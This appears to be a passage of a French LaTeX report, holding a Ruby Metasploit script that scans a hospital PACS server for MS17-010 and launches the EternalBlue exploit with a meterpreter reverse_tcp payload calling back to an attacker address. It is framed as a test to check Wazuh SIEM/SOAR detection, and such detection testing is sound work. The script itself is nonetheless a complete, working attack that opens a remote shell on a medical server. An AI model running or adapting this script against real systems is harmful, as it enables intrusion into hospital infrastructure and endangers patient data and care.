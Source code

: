 \paragraph{Attaque EternalBlue Automatisee}
\begin{lstlisting}[style=bashstyle,caption=Script Metasploit pour attaque EternalBlue hospitaliere]
#!/usr/bin/env ruby
# eternalblue_hospital_test.rb
# Test automatise EternalBlue pour validation SIEM/SOAR

require 'msf/core'

framework = Msf::Simple::Framework.create

# Configuration de l'exploit EternalBlue
exploit_name = 'windows/smb/ms17_010_eternalblue'
payload_name = 'windows/x64/meterpreter/reverse_tcp'

# Parametres cible hospitaliere
target_ip = '192.168.15.20'  # PACS Server
attacker_ip = '192.168.183.100'
attacker_port = 4444

puts "[+] Initialisation test EternalBlue sur environnement hospitalier"
puts "[+] Cible: #{target_ip} (PACS Server)"
puts "[+] Attaquant: #{attacker_ip}:#{attacker_port}"

# Phase 1: Reconnaissance SMB
puts "\n[Phase 1] Reconnaissance SMB sur serveur PACS"
recon_output = `nmap -p 445 --script smb-vuln-ms17-010 #{target_ip}`
puts recon_output

if recon_output.include?("VULNERABLE")
  puts "[+] Serveur PACS confirme vulnerable a MS17-010"
  
  # Phase 2: Exploitation
  puts "\n[Phase 2] Lancement exploit EternalBlue"
  
  exploit = framework.exploits.create(exploit_name)
  exploit.datastore['RHOSTS'] = target_ip
  exploit.datastore['RPORT'] = 445
  
  payload = framework.payloads.create(payload_name)
  payload.datastore['LHOST'] = attacker_ip
  payload.datastore['LPORT'] = attacker_port
  
  exploit.payload = payload
  
  puts "[+] Configuration exploit:"
  puts "    - Target: #{target_ip}:445"
  puts "    - Payload: #{payload_name}"
  puts "    - Callback: #{attacker_ip}:#{attacker_port}"
  
  # Attente pour permettre a Wazuh de detecter la reconnaissance
  puts "[+] Attente 30 secondes pour detection Wazuh..."
  sleep(30)
  
  # Execution de l'exploit
  session = exploit.exploit_simple(
    'LocalInput'  => Rex::Ui::Text::Input::Stdio.new,
    'LocalOutput' => Rex::Ui::Text::Output::Stdio.new
  )
  

\end{lstlisting}
